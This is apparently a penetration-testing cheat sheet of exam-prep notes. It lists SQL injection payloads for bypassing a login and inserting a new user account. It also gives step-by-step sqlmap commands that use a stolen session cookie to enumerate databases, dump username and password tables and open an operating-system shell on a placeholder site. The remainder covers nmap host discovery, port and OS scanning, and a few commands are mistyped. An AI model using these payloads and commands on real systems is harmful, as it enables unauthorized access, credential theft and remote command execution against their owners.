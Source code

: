 ----------------------------------------------------------------------------------------------------------------
1- Auth Bypass-  hi'OR 1=1 --
2- Insert new details if sql injection found in login page in username tab enter- blah';insert into login values('john','apple123');--
3- Exploit a Blind SQL Injection- In the website profile, do inspect element and in the console tab write -  document.cookie
Then copy the cookie value that was presented after this command. Then go to terminal and type this command,
sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --dbs
4- Command to check tables of database retrieved-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename --tables
5- Select the table you want to dump-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename -T Table_Name --dump   (Get username and password)
6- For OS shell this is the command-   sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --os-shell
6.1 In the shell type-   TASKLIST  (to view the tasks)
6.2 Use systeminfo for windows to get all os version
6.3 Use uname -a for linux to get os version
----------------------------------------------------------------------------------------------------------------

SCANNING NETWORKS:

nmap -sn 10.10.10.10/24 -oN nmap.txt
nmap -sC -sV -sS -O 10.10.10.11 -oN nmap.txt
nmap -A 10.10.10.10/24 -oN nmap.txt

nmap -sn -O 172.16.43.1/24 
nmap -sS -sC -sV -O 172.16.43.3 -oN nmap.txt
nmap 172.16.43.1/24

nmap -sV -sC -pA nmap 10.10.10.x
nmap -sC -sV -v -oN nmap.txt 10.10.10.10
nmap -sU -sV -A t4 -v -oN udp.txt 10.10.10.1

nmap -f IP
nmap -sn -PR IP
nmap -sn -PE ip-range
nmap -sn 10.10.10.10/24
nmap -sC -sS -sV -O IP
nmap -A IP

-sn disable port scan
-PR ARP ping scan
-PU UDP ping scan
-PE ICMP ECHO ping scan
-f  Splits IP into fragment packets

nmap --script smb-os-discovery.nse IP 
Displays OS, Computer-Name, Domain, WorkGroup and Ports.
----------------------------------------------------------------------------------------------------------------
1- Nmap scan for alive/active hosts command for 192.189.19.18- nmap -A 192.189.19.0/24 or nmap -T4 -A ip
2- Zenmap/nmap command for TCP scan- First put the target ip in the Target: and then in the Command: put this command- nmap -sT -v 10.10.10.16
3- Nmap scan if firewall/IDS is opened, half scan- nmap -sS -v 10.10.10.16 
If even this the above command is not working then use this command-  namp -f 10.10.10.16
4- -A command is aggressive scan it includes - OS detection (-O), Version (-sV), Script (-sS) and traceroute (--traceroute).
5- Identify Target system os with (Time to Live) TTL and TCP window sizes using wireshark- Check the target ip Time to live value with protocol ICMP. If it is 128 then it is windows, as ICMP value came from windows. If TTL is 64 then it is linux. Every OS has different TTL. TTL 254 is solaris.
6- Nmap scan for host discovery or OS- nmap -O 192.168.92.10 or you can use nmap -A 192.168.92.10